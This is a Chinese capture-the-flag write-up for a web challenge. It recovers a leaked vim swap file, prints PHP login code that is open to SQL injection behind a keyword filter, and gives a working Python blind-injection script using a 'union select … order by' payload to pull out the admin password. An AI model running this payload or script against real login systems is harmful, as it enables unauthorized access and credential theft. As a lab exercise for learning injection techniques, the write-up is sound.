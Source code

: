 
#Web #SQL注入 #盲注 #目录扫描

![](<./img/Pasted image 20230602151806.png>)

---

尝试扫目录

![](<./img/Pasted image 20230602152103.png>)

能发现一个`index.php`的`swp`文件

```shell
curl 'http://111.74.9.131:18001/.index.php.swp' -o ~/.index.php.swp
vim -r ~/.index.php.swp
```

```php
<?php
//   error_reporting(0);
$dbhost = "db";
$dbuser = "root";
$dbpass = "root";
$db = "ctf";
$conn = mysqli_connect($dbhost, $dbuser, $dbpass, $db);
mysqli_set_charset($conn, "utf8");

/* sql
     create table `admin` (
        `id` int(10) not null primary key auto_increment,
        `user` varchar(50) not null ,
        `pass` varchar(50) not null
     );
  */
function filter($str)
{
    $filterlist = "/user|pass|where|case|when|like|regexp|into|limit|=|for|;|\(|\)/";
    if (preg_match($filterlist, strtolower($str))) {
        die("hacker!");
    }
    return $str;
}
$username = isset($_POST['user']) ? filter($_POST['user']) : die("please input username!");
$password = isset($_POST['pass']) ? filter($_POST['pass']) : die("please input password!");
$sql = "select * from admin where  user = '$username' and pass = '$password' ";
$res = $conn->query($sql);

if ($res->num_rows > 0) {
    $row = $res->fetch_assoc();
    if ($row['id']) {
        echo $row['user'];
    }
} else {
    echo "keep on !";
}
/*
   提交的flag格式为flag{小写字母数字组合}
 */
```

是SQL注入，但是过滤掉了小括号

猜测flag是admin的密码，于是尝试使用`union select`结合`order by`进行盲注

```python
import sys
import requests

# curl 'http://111.74.9.131:18001' --data "user=admin' union select 1,2,'4ea' order by 3#" --data "pass=123"
url = 'http://111.74.9.131:18001'

template = {'user': "admin' union select 1,2,'%s' order by 3#", 'pass': '123'}

# lower case & numbers
chars = '0123456789abcdefghijklmnopqrstuvwxyz'

result = ''

while True:
    for i in range(0, len(chars)):
        payload = template.copy()
        payload['user'] = payload['user'] % (result + chars[i])
        r = requests.post(url, data=payload)
        if 'admin' in r.text:
            result += chars[i - 1]
            print(chars[i - 1], end='')
            sys.stdout.flush()
            break
```

![](<./img/Pasted image 20230602153237.png>)

出来的结果是满足比admin的password小的值，因此推出（把四周的值都试一遍）flag为`flag{4e9b954bc4bd3cd5ba6ea9335fbe4b41}`